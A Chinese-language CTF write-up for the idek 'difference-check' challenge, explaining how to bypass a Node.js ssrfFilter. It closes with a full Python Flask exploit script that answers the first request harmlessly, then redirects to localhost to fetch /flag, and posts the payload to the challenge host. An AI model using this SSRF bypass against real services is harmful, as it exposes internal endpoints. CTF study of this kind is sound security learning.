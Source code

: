 ```js
	};
	const difference = await diffURLs(urls);
	res.render('diff', {
		lines: difference
	});

});

app.listen(port, () => {
	console.log(`App listening at http://localhost:${port}`)
});

```

可以看到对请求的url用`ssrfFilter`进行过滤，不允许访问本地的`/flag`，但是要flag就必须要ssrf，这里Node的版本是alpine，也没法进行http请求切分

于是我尝试构造一个恶意html页面包含一个跳转的js脚本，但是学艺不精 构造失败了；随后我又尝试了DNS重绑定，但是会被检测出来导致利用失败

![image-20211213132823135](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211213132823135.png)

后来看了discord中的解答

![image-20211215212432931](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211215212432931.png)

所以说重绑定还是可行的，因为在一个域名被反复横跳地解析ip地址，如果第一次被解析为我们服务器地地址而第二次返回127.0.0.1就可以达到SSRF地效果了；不过看wp之后发现直接用python会更简单

```python
from flask import Flask, redirect
from threading import Thread
import requests

local_url = "http://yourvps_ip:port/"
app = Flask(__name__)
reqCounter = 0

@app.route('/')
def exploit():
    global reqCounter
    if reqCounter == 0:
        reqCounter += 1
        return 'hey'
    else:
        reqCounter -= 1
        return redirect('http://localhost:1337/flag')

def start_server():
    app.run('0.0.0.0', 88)

def send_payload():
    url = "http://difference-check.chal.idek.team/diff"
    payload = {"url1": local_url, "url2": "http://v3zbv72qksii3rrtyl113zsi096zuo.burpcollaborator.net/"}
    r = requests.post(url, data=payload)
    print(r.text)

if __name__ == '__main__':
    Thread(target=start_server).start()
    Thread(target=send_payload).start()

```
